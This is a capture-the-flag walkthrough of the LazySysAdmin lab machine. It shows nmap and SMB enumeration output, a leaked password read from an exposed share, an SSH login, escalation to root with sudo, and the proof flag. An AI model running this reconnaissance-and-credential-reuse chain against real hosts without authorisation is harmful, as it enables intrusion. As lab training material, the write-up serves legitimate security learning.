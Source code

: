 LazyAdmin: 1 write-up


scan host:

nmap -sV -A -sC -p- 192.168.2.90

nmap result:

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|_  256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Silex v2.2.7
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.2.38
|_  error: Closing link: (nmap@192.168.2.38) [Client exited]
Service Info: Host: Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN
|   Domain name: 
|   FQDN: lazysysadmin
|_  System time: 2017-11-01T04:00:05+10:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol



enum smb: using enum4linux tool (./enum4linux.pl -U 192.168.2.90)

from enum result see a user on the system: togie


[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\togie (Local User)


also smb shares:


 ========================================= 
|    Share Enumeration on 192.168.2.90    |
 ========================================= 
WARNING: The "syslog" option is deprecated
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	share$          Disk      Sumshare
	IPC$            IPC       IPC Service (Web server)

	Server               Comment



connect to smb share:


smbclient //192.168.2.90/share$


see file list:


smb: \> 
smb: \> dir
  .                                   D        0  Tue Aug 15 07:05:52 2017
  ..                                  D        0  Mon Aug 14 08:34:47 2017
  wordpress                           D        0  Tue Oct 31 13:49:52 2017
  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
  wp                                  D        0  Tue Aug 15 06:51:23 2017
  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
  apache                              D        0  Mon Aug 14 08:35:19 2017
  index.html                          N    36072  Sun Aug  6 01:02:15 2017
  info.php                            N       20  Tue Aug 15 06:55:19 2017
  test                                D        0  Mon Aug 14 08:35:10 2017
  old                                 D        0  Mon Aug 14 08:35:13 2017




Open deets.txt in browser: http://192.168.2.90/deets.txt
"
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
"


login to system over ssh with user:togie and password: 12345


togie user in sudories so just execute sudo su to become a root user:


get proof.txt in root:


WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu

![alt text](https://github.com/s1l3xz/some/blob/vuln_hub/lazysysadmin-1/proof.png)